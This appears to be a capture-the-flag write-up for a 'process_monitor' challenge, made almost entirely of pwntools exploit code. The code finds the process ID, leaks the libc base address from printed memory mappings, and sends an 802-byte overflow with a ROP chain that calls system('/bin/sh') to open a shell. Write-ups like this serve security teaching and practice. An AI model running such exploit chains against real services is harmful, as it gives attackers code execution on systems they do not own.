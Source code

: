 ```py
def details(pid: bytes, wait=True):
    io.sendlineafter(b"Enter your choice", b"2")
    io.sendlineafter(b"Enter the PID", pid)

    if not wait:
        return

    io.recvuntil(b"Memory Mappings:")
    io.recvline()

    data = [line.strip().split() for line in io.recvuntil(b"Menu:").split(b"\n")]

    # make sure we're not reading data before the actual process listings
    data = [line for line in data if len(line) == 6]

    return data
```

First we find the pid of our process:
```py
io.sendlineafter(b"Enter your", b"1.")
lines = io.recvuntil(b"\n\n")
lines = [line.strip().split() for line in lines.split(b"\n")][1:]
possible_pids = []
for line in lines:
    if len(line) != 3:
        continue
    if b'process_monitor' in line[2]:
       print(line)
       possible_pids.append(line[1])

pid = possible_pids[0]
print(f"INFO: PID IS {pid}")
```

Then, we get the libc base:
```py
maps = details(pid)

libc_start = next(m for m in maps if b"libc.so" in m[-1])[0]
print(libc_start)
libc.address = int(libc_start.split(b"-")[0], 16)
print((hex(libc.address)))
print("system", hex(libc.symbols["system"]))
```

Then it's just a matter of ropping!

```py
PAYLOAD = b"A" * 802

PAYLOAD += p64(pop_rdi)
PAYLOAD += p64(next(libc.search(b"/bin/sh\0")))

PAYLOAD += p64(pop_rsi)
PAYLOAD += p64(0)

PAYLOAD += p64(pop_rax)
PAYLOAD += p64(0)

PAYLOAD += p64(ret)


PAYLOAD += p64(libc.symbols["system"])

details(PAYLOAD, wait=False)
```
